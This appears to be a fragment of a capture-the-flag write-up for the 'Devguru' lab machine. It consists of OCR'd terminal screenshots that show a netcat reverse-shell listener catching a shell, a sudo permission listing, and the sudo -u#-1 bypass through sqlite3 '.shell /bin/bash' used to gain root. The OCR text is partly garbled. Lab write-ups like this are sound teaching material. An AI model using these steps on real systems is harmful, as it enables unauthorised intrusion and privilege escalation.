 commit changes

<img src="Devguru/media/image39.png" style="width:6.09167in;height:1.85in" alt="(kaliS -L/Extractor/website/ø-7de91157øøc5656c67øb34987c6fb $ nc -nvlp 4444 listening on [any] 4444 . connect to [192.168.43.208] from (UNKNOWN) [192.168.43.194] 60170 $ id id groups=løøø(frank) $1 " />

<img src="Devguru/media/image40.png" style="width:5.925in;height:1.95in" alt="franködevguru:-$ sudo -l Vlatching Defaults entries for frank on devguru: env_reset, mail_badpass, : /usr/local/bin\ : /usr/sbin Jser frank may run the following commands on devguru: (ALL, !root) NOPASSWD: /usr/bin/sq1ite3 1 franködevguru:-$ " />

<img src="Devguru/media/image41.png" style="width:5.975in;height:2.025in" alt="sudo -V Sudo version 1.8.21p2 sudoers policy plugin version 1.8.21p2 Sudoers file grammar version 46 Sudoers I/O plugin version 1.8.21p2 sudo -un-1 whoami root id root) sqlite3 /dev/null frank ) &#39; . shell /bin/bash&#39; " />
